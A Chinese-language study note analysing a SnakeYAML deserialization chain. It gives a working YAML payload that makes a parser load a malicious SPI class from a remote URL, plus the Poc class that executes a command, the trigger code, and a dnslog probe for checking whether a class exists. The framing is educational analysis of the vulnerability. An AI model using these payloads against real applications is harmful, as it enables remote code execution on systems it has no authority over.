



# SnakeYaml反序列化链

## 前言

和jackson类似，利用链有很多种，选择其中典型的和特殊的学习，别的只记下POC了。

## ScriptEngineManager利用链

需要利用到SPI的知识，建议学过SPI之后再来理解。

### POC

```java
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:39876/"]]]]
```

先写个Poc类：

```java

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class Poc implements ScriptEngineFactory {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}

```

编译之后在和Poc.class这个目录中创建`META-INF/services/javax.script.ScriptEngineFactory`，里面写：

```
Poc
```

然后攻击：

```java
        String s = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:39876/\"]]]]";
        Yaml yaml = new Yaml();
        User user = yaml.load(s);
```



### 分析

打断点之后分析，总的流程之前之前调试过了也都知道，看看具体细节上的不同。

在这里根据参数的数量查找可能匹配的构造器：


POC的那种传参方式是要把`!!java.net.URLClassLoader`作为参数调用`ScriptEngineManager`的构造器了。

然后递归进行：

```java
                        for (Node argumentNode : snode.getValue()) {
                            Class<?> type = c.getParameterTypes()[index];
                            // set runtime classes for arguments
                            argumentNode.setType(type);
                            argumentList[index++] = constructObject(argumentNode);
                        }
```

对作为参数传递的那个对象进行解析，这样依次又解析到了`!!java.net.URL`，依次类推。

解析完内部参数之后，跳出进行`newInstance`

```java
                        try {
                            c.setAccessible(true);
                            return c.newInstance(argumentList);
```

最后调用的是这个构造器：

```java
    public ScriptEngineManager(ClassLoader loader) {
        init(loader);
    }
```

`loader`就是我们传入解析而得的`URLClassLoader`：



进入`init()`，再进入`initEngines()`，看到这熟悉的代码：


在这里：



根据`itr`来加载响应的SPI实现类，`itr`的Loader是我们设置的那个URLClassLoader，所以寻找SPI机制中的实现类和services文件夹下的文件都是在指定的URL下寻找的。

`itr.next()`之前分析SPI的时候也提到了会反射调用来实例化，所以恶意代码写在static里面可以执行，导致rce。


## 判断类存在

```java
 String poc = "[!!判断的类全类名 []: 0, !!java.net.URL [null, \"http://ixvoxg.dnslog.cn\"]: 1]";
```


## 其他的利用链

跟fastjson还有jackson也不会有太大的差别。直接参考网上的即可。

https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#Resource

https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90/#1-%E5%88%A9%E7%94%A8SPI%E6%9C%BA%E5%88%B6-%E5%9F%BA%E4%BA%8EScriptEngineManager%E5%88%A9%E7%94%A8%E9%93%BE